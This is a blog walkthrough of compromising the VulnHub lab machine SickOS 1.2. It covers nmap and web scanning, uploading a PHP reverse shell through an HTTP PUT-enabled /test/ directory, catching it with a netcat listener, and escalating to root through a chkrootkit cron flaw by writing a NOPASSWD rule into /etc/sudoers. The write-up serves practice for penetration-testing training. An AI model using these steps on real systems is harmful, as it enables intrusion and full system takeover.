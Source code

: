 ```yaml
---
title:  "SickOS 1.2 Walkthrough"
header: "SickOS 1.2 Walkthrough"
categories: 
  - walkthroughs
tags:
  - vulnhub
---
```

The [SickOS series](https://www.vulnhub.com/?q=sickos&sort=date-des&type=vm) from [VulnHub](https://www.vulnhub.com) gives you a small taste of what to expect while pursuing your OSCP. Below is a walkthrough of how to compromise SickOS 1.2 and obtain the flag. Post or reach out if you know of some other ways!  

# Host Enumeration  
***

Since the victim machine is set to receive DHCP, I used nmap to find the target IP (you could also use netdiscover)  
`nmap -sS -O <IP>/24`  

Once the target IP has been acquired, let’s scan the host and see what options we have  
`nmap -T4 -A -v <IP>`  

Look's like two ports are open  

22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)  
80/tcp open  http    lighttpd 1.4.28  

# Service Enumeration  
***

We see that ports 22 and 80 are open. Since we have an HTTP port open we’ll go ahead and kick off Nikto and Dirb while we do some manual enumeration  

Nikto: `Nikto –h <IP>`  
Dirb: `dirb http://<IP> <wordlist>` (common location is /usr/share/wordlists/dirb/common.txt)  

There’s not much content on the main page with no discernible links or scripts. So we review the output from our scanners. Nikto and Dirb come back with a listable directory /test/ which doesn’t appear to have anything in it. Typically anytime I come across a listable directory I test the HTTP methods to see what options we have. There are several ways to test but the way I chose this time was to use curl.  

`curl -v -X OPTIONS <IP>/test/`  

Sure enough once we test this directory; it has the PUT option available. This will allow us to upload malicious files such as a reverse shell back to our attacking machine. Along with many others, I’m a fan of [pentestmonkey’s reverse php shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). The only thing that’s required for this to work is to modify the IP and the Port parameters to be your IP and the port in which you’d like to be contacted on.  

# Breach  
***

Now we’ll PUT the reverse shell in /test/ by using curl  

`curl -X PUT http://<IP>/test/ -H "Expect:" --upload-file rev_shell.php`  

> Side note: I tried the traditional way without the -H flag and received a “417 - Expectation Failed” error. Did a quick google search and found that nifty trick.  

Upon navigating to http://<IP>/test/, you should see your reverse shell listed in the directory.  

![Test directory](/assets/images/sickos2dir.jpg)  

Next you need to set up a listener to catch the reverse shell, be sure to specify whatever port you put into your reverse shell file.  

`nc –nlvp 443`  

Once it’s listening, navigate to your reverse shell on the target’s website and wait for a connection to your attacking machine.  

![Rev Shell](/assets/images/sickos2revshell.jpg)  

> Side note: I used port 4444 in my original reverse shell and it wouldn’t connect, I switched it to 443 and immediately got it. If you experience this, you can re-upload the file in the same method as before, no need to rename.  

# Privilege Escalation  
***

As a form of habit, since I didn’t have tty I used python to spawn a shell  

`python -c 'import pty; pty.spawn("/bin/bash")`  

It took a while but I was able to upload some enumeration scripts (there are plenty publically available but I encourage you to write your own). They didn’t turn up anything of significance so I reverted back to following [g0tmi1k’s privilege escalation guide](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) and eventually was led to chkrootkit within cron.daily that has a publically disclosed vulnerability [here](https://www.exploit-db.com/exploits/33899/). There’s a Metasploit module available for this vulnerability but I can’t recommend it enough to try both Metasploit and a manual way just for the sheer experience. Below I’ll document a manual way as the Metasploit one is pretty self-explanatory if you've used it before.  

![Cron List](/assets/images/sickos2cronlist.jpg)  

![chkrootkit version](/assets/images/sickos2chkrootkitversion.jpg)  

Essentially due to missing quotation marks around a variable assignment within chkrootkit, if you place a file named update within tmp then it’ll be ran by the cron job we discovered. You can place in anything that you want root to run within the file, in this scenario we’ll just give ourselves sudo without requiring a password by running the following  

`echo 'echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 777 /etc/sudoers' > /tmp/update`  

Wait for the job to run and update the sudoers file, you can view the timestamp and size by running the following  

`ls -al /etc/sudoers`  

Once it has been updated, simply execute `sudo su` and you should become root.  

![root status](/assets/images/sickos2root.jpg)  

Now navigate to the flag and viola, you are done  

![Sickos 1.2 flag](/assets/images/sickos2flag.jpg)  

# Review  
***

Getting into this machine was pretty straight forward due to the low attack surface; however the privilege escalation is certainly a time sink. It does force you to start back with the basics and hone your attention to detail. Overall it was a good machine but I was hoping for a fancier privilege escalation attack vector. If you’ve found any additional ways, feel free to post as I would love to hear about it!  